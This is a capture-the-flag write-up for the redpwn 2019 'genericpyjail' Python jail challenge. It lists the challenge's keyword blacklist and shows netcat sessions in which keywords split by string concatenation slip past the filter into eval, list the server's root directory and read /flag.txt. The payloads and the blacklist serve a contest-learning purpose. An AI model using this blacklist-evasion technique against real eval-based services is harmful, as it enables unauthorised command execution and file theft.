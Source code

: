 # genericpyjail(misc) - Writeup

## Question

````
Written by: dns

When has a blacklist of insecure keywords EVER failed?

nc chall2.2019.redpwn.net 6006
````


## Answer
pyjail problem.
blacklist is specified and the following characters cannot be used.

````
import
ast
eval
=
pickle
os
subprocess
i love blacklisting words!
input
sys
windows users
print
execfile
hungrybox
builtins
open
most of these are in here just to confuse you
_
dict
[
>
<
:
;
]
exec
hah almost forgot that one
for
@
dir
yah have fun
file
````


Entering a blacklist command results in an error, and entering an undefined command forcibly terminates it.

````
root@kali:~# nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> print
That's not allowed here
>>> ls
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'ls' is not defined
````


After a hard time confirming, the following can be understood.

-() Is allowed.
-You can avoid blacklist by combining characters using + and making it a command.


````
root@kali:~# nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> 'impor'+'t '+'subproce'+'ss'
>>> "subproces"+"s.cal"+"l('l"+"s')"
bin
boot
dev
etc
flag.txt
home
jail1.py
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
>>> 
````



Check the flag under root.

````
root@kali:~# nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> 'prin'+'t(op'+'en("/flag.txt").rea'+'d())'
flag{bl4ckl1sts_w0rk_gre3344T!}
````

###### flag{bl4ckl1sts_w0rk_gre3344T!}

